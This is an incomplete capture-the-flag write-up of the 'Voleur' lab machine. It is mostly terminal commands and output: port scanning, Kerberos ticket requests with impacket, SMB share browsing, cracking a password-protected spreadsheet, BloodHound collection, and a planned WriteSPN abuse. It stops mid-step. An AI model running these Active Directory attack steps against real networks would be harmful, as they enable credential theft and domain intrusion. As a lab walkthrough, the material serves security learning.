





```
Machine Information

As is common in real life Windows pentests, you will start the Voleur box with credentials for the following account: ryan.naylor / HollowOct31Nyt
```


```
└─# nmap 10.10.11.76

Nmap scan report for voleur.htb (10.10.11.76)
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
2222/tcp open  EtherNetIP-1
3269/tcp open  globalcatLDAPssl
5985/tcp open  wsman
```


```
┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# nxc smb 10.10.11.76 -u ryan.naylor -p HollowOct31Nyt
SMB         10.10.11.76     445    10.10.11.76      [*]  x64 (name:10.10.11.76) (domain:10.10.11.76) (signing:True) (SMBv1:False) (NTLM:False)
SMB         10.10.11.76     445    10.10.11.76      [-] 10.10.11.76\ryan.naylor:HollowOct31Nyt STATUS_NOT_SUPPORTED
```


## USER_ACCESS 

Cool ! NTLM Disabled --> Kerberos Authentication!


```
└─# impacket-getTGT voleur.htb/ryan.naylor:HollowOct31Nyt
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 
[*] Saving ticket in ryan.naylor.ccache


┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# export KRB5CCNAME=ryan.naylor.ccache
```





GOT , Excel file on IT Share , Juicy ?? 

```
└─# impacket-smbclient voleur.htb/ryan.naylor@DC.voleur.htb -k -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use IT
# ls
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 .
drw-rw-rw-          0  Thu Jul 24 16:09:59 2025 ..
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 First-Line Support
# cd First-Line Support
# ls
drw-rw-rw-          0  Wed Jan 29 04:40:17 2025 .
drw-rw-rw-          0  Wed Jan 29 04:10:01 2025 ..
-rw-rw-rw-      16896  Thu May 29 18:23:36 2025 Access_Review.xlsx
# get Access_Review.xlsx

```


But Its Password Protected, alot of ways , Online Crack , Or John!

```
└─# john --show crack_  
Access_Review.xlsx:football1
```





Cool ! We Got Access of Services Accounts. Boom ! Running Bloodhound.....


~~~
Get the Keys / Cache files locked !
└─# impacket-getTGT voleur.htb/svc_ldap:M1XyC9pW7qT5Vn                 

[*] Saving ticket in svc_ldap.ccache

┌──(root㉿BHASHMA)-[~/HTB_/VOLEUR_]
└─# export KRB5CCNAME=svc_ldap.ccache 


Running Blood-HOund with nxc .

└─# nxc ldap DC.voleur.htb -k -u svc_ldap -p M1XyC9pW7qT5Vn --bloodhound --collection All
Compressing output into /root/.nxc/logs/DC_DC.voleur.htb_2025-08-09_233558_bloodhound.zip
~~~





Cool ! We got alot power ,  but first lets loginto the box,

SVC_LDAP --> SVC_WINRM [WRITE_SPN](https://bloodhound.specterops.io/resources/edges/write-spn)


Overwrite the SPN -> 


